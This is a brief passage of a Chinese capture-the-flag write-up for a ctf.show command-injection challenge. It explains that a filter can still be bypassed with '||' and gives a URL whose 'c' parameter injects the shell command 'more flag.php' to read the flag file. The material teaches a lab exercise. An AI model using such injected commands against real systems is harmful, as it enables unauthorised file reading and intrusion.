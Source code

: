 <figure><img src="../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

就是和以前一样过滤，但是我们的||还能用，所以可以继续使用

```php
http://4dca9ec0-61b7-4341-9aa0-af0be0639a36.challenge.ctf.show/?c=more flag.php||
```

